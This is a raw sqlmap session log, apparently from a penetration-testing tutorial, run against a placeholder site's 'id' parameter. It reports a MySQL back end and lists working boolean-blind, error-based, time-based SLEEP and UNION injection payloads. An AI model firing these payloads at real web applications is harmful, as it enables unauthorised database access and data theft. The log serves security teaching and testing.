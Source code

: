 ```shell-session
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)                                                                                                       
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

```